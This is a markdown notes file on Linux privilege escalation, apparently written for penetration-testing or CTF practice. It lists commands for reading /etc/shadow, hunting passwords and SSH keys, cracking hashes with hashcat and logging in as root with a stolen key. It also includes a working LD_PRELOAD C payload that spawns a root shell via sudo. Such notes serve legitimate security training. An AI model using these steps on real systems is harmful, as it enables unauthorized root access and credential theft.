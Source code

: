 ## Warning
- if you found any command that you dont understand, you can check it [here](https://explainshell.com)

## OS Information Gathering
- hostname
- uname -a 
- cat /proc/version
- cat /etc/issue
- lscpu
- ps aux (tgk service running)
- ps aux | grep root (tgk yg run under root)
- whoami
- id
- sudo -l
- cat /etc/passwd
- cat /etc/passwd | cut -d: -f 1
- cat /etc/shadow
- cat /etc/group
- history

## Network Information Gathering
- ifconfig
- ip a
- ip route
- arp -a
- ip neigh
- netstat -ano (check port, communication)

## Password Hunting
- grep —color=auto -rnw ‘/’ -ie “PASSWORD” —color=always 2>dev/null
- grep —color=auto -rnw ‘/’ -ie “PASSWORD=” —color=always 2>dev/null
- locate password | more
- locate passwd | more
- find / -name id_rsa 2>/dev/null
- find / -name authorized_keys  2> /dev/null


## Automated tools
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggestor](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)

## Kernel Exploits

![alt text](image/image.png)

Tools: [Kernal Exploits](https://github.com/lucyoa/kernel-exploits)

- Get kernal version
  
![alt text](image/image-1.png)

- Search for exploit
  
![alt text](image/image-3.png)

- Run Exploit Suggestor
  
![alt text](image/image-4.png)
![alt text](image/image-5.png)
![alt text](image/image-6.png)

## Escalation via Stored Passwords
- history
- cat .bash_history
- [Looting for password](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#checklists)

## Escalation via Weak File Permissions

- weak file permission of shadow file (shadow file should not have read access)
  
![alt text](image-8.png)

- x is the placeholder for password (the password containe within the shadow file)

![alt text](image-9.png)

![alt text](image-10.png)

### Crack Password within shadow file

```bash
nano passwd
nano shadow
unshadow passwd shadow
nano unshadowed [save dalam file]
hashcat -m 1800 hash /usr/share/wordlist/common.txt --show 
```

- Result

![alt text](image-11.png)

![alt text](image-12.png)


- Reference for hash mode : [Hashing Types](https://hashcat.net/wiki/doku.php?id=example_hashes)

## Escalation via SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null (private key)
```

- id_rsa

![alt text](image-13.png)

```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@<ip-address>
```

![alt text](image-14.png)

## Sudo Privilege Escalation

![alt text](image-15.png)

### Exploitation

- [GTFOBin](https://gtfobins.github.io/)
- [Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

## Escalation via intended Functionality

- Example : wget (where user usually used to download file)
- If the exploitation not consist within the GTFOBin, the still will be other way to exploit, Google is the keyword.

Example: [wget](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

## Escalation via LD_PRELOAD

![alt text](image-16.png)

What is LD_PRELOAD ?

LD_PRELOAD is an environment variable used in Unix-like operating systems to specify a shared library that should be loaded before any other library. This library is then searched for functions before the standard libraries.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- unsetenv("LD_PRELOAD"): Removes the LD_PRELOAD environment variable from the process's environment. This is done to prevent any other libraries specified in LD_PRELOAD from being loaded after this one.
  
- setgid(0): Sets the group ID (gid) of the current process to 0 (root group).

- setuid(0): Sets the user ID (uid) of the current process to 0 (root user).

- system("/bin/bash"): Executes the /bin/bash shell as a subprocess with the newly set user and group IDs (i.e., as the root user).

![alt text](image-31.png)

- The command gcc -fPIC -shared -o shell.so shell.c -nostartfiles compiles the shell.c code as a Position Independent Executable (PIE) shared library named shell.so. The -nostartfiles flag is used to prevent the linker from adding the standard library startup files

- The command sudo LD_PRELOAD=/home/user/shell.so apache2 sets the LD_PRELOAD environment variable to point to the shell.so library and runs the Apache2 web server with elevated privileges (as root). Here's what happens:

## TryHackMe Room (Simple CTF)

dirsearch - https://github.com/maurosoria/dirsearch
![alt text](image-32.png)

Exploit-DB for Simple CMS - https://www.exploit-db.com/exploits/46635

![alt text](image-33.png)
![alt text](image-34.png)
![alt text](image-35.png)

## CVE-2019-14287 (Sudo Security Bypass thm)

- Exploit-DB for CVE-2019-14287 - https://www.exploit-db.com/exploits/47502

## Overview and Escalation via CVE-2019-18634 (Sudo Buffer Overflow)

- Exploit for CVE-2019-18634 - https://github.com/saleemrashid/sudo-cve-2019-18634

## Escalation Path SUID
